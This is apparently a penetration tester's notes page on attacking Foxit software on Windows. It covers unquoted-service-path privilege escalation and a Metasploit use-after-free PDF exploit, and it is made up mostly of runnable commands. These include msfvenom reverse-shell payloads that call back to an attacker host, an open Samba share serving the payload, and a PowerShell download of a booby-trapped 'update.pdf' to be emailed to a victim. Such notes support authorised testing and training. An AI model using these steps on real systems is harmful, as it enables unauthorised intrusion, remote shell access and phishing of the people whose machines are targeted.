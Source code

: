 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Unquoted Service Path
https://www.exploit-db.com/exploits/36390

In winpeas.txt, we see the service name right above the unquoted service path:

![[Pasted image 20220321181308.png]]

```command prompt - windows 
sc qc FoxitCloudUpdateService
```

We see that are no quotes around the bin path line.

![[Pasted image 20220320180823.png]]

We can now start testing where in this path we have write privileges.  Tested an echo command in Program Files x86,  we get access denied.  Tested in Foxit Software, we are successful at writing out test file. 

```command prompt - windows
echo "test" > test.txt
```

We place our malicious Foxit.exe file in the Foxit Reader directory.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=80 -f exe -o Foxit.exe
```

![[4._File Transfers#Certutil]]

![[___.Misc Commands#Restart host]]


#### PDF EXE

[https://prog.world/we-exploit-the-foxit-reader-vulnerability-and-bypass-the-digital-signature-on-the-example-of-the-neoquest-2020-task/](https://prog.world/we-exploit-the-foxit-reader-vulnerability-and-bypass-the-digital-signature-on-the-example-of-the-neoquest-2020-task/)

```bash - kali
sudo apt install samba
```

```bash - kali
sudo mkdir /mnt/files
```

```bash - kali
sudo chmod 777 /mnt/files
```

Now you need to configure the samba server. To do this, open the configuration file /etc/samba/smb.conf and paste the following text there:

```bash - kali
mousepad /etc/samba/smb.conf
```

```bash - kali
[global]  
security = user  
workgroup = MYGROUP  
server string = Samba  
guest account = nobody  
map to guest = Bad User

[share]  
path = /mnt/files  
browseable = Yes  
guest ok = Yes  
writeable = Yes  
public = yes  
```

```bash - kali
sudo service smbd restart
```

```bash - kali
sudo service nmbd restart
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=80 --arch x86 -f exe -o /mnt/files/exploit.exe
```

```bash - kali
sudo chmod 777 /mnt/files/exploit.exe
```

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/windows/fileformat/foxit_reader_uaf
```

```bash - kali
set LHOST $KALI
```

```bash - kali
set EXENAME exploit.exe
```

```bash - kali
set SHARE share
```

```bash - kali
run
```

```bash - kali
sudo cp /root/.msf4/local/test.pdf .
```


![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

Download update.pdf on already compromised machine (if you have one), then use email app to send to victim:
```powershell - target
powershell -c "(new-object System.Net.WebClient).DownloadFile('$KALI:80/test.pdf','C:/Users/$USER/Documents/tools/update.pdf')"
```